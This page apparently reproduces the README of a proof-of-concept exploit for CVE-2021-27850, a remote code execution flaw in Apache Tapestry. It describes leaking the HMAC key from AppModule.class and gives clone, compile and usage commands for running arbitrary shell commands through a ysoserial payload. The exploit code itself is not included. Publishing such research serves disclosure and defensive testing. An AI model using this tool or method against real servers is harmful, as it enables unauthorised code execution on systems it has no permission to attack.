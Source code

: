 ```yaml
---
title : "CVE-2021-27850"
# pre : ' '
description : "CVE-2021-27850 is a critical unauthenticated remote code execution vulnerability that was found in all recent versions of Apache Tapestry, by downloading the AppModule.class file we can leak the HMAC Secret key used to sign all the serialized objects in apache Tapestry."
date : 2021-07-06T11:02:42+02:00
# hidden : true
# draft : true
weight : 290
# tags : ['']
---
```


---

## Apache Tapestry

CVE-2021-27850 is a critical unauthenticated remote code execution vulnerability that was found in all recent versions of Apache Tapestry, by downloading the AppModule.class file we can leak the HMAC Secret key used to sign all the serialized objects in apache Tapestry.

We encountered this CVE in a real life assessment and as far as I know there are no public exploits available on how Tapestry signs the serialized objects so we decided to publish the following POC that we have used after digging in apache Tapestry source code for a long time x) .

## Installation

```plain
git clone https://github.com/kahla-sec/CVE-2021-27850_POC.git
```

```plain
javac -classpath commons-codec-1.15/commons-codec-1.15.jar:. Exploit.java
```

## Usage

```plain
java -cp commons-codec-1.15/commons-codec-1.15.jar:. Exploit [Tapestry Key] [Ysoserial Payload] [Command To Execute]
```

Where [Tapestry Key] is the Hmac key leaked from the AppModule.class , [Ysoserial Payload] is the payload you want to use from ysoserial and [Command To Execute] the command you want to execute.

![Example](images/example.png)

Note: Unlike the usual Java deserialization exploits where the commands you run are limited ( no pipes or special chars .. ) you can use here any complex command you want since we are appending the following before executing the command sh `-c $@|sh . echo`.

## URL List

- [Cve.mitre.org - 2021-27850](http://cve.mitre.org/cgi-bin/cvename.cgi?name=2021-27850)
- [Github.com - Apache - Tapestry-5](https://github.com/apache/tapestry-5)
